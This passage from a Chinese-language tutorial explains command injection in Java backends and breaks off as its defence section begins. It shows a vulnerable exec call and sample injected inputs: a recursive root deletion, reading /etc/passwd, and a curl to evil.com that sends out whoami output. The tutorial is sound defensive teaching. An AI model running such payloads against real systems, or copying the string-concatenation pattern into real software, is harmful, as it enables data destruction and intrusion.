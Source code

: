 ```java
String ip = request.getParameter("ip");
Runtime.getRuntime().exec("ping " + ip);
```

表面上你只想让他执行：

```
ping 8.8.8.8
```

---

### 🦹 攻击者输入：

```
8.8.8.8 && rm -rf /
```

变成执行命令：

```
ping 8.8.8.8 && rm -rf /
```

🚨**后果：服务器文件全部被删除！**

---

## ☠️ 命令注入常见表现

| 输入字段   | 结果          |
| ------ | ----------- |
| `;` 分号 | 执行多条命令      |
| `&&`   | 如果前面成功，执行后面 |
| `      | ` 管道符       |
| `\`    | 转义符用于构造路径   |

攻击者可构造如：

```
127.0.0.1; cat /etc/passwd
127.0.0.1 && curl http://evil.com/`whoami`
```

---

## 🛡 如何防御命令注入？（特别是 Java 后端）

---

### ✅ 1. **完全避免拼接命令字符串**

**最关键！永远不要这样做**：
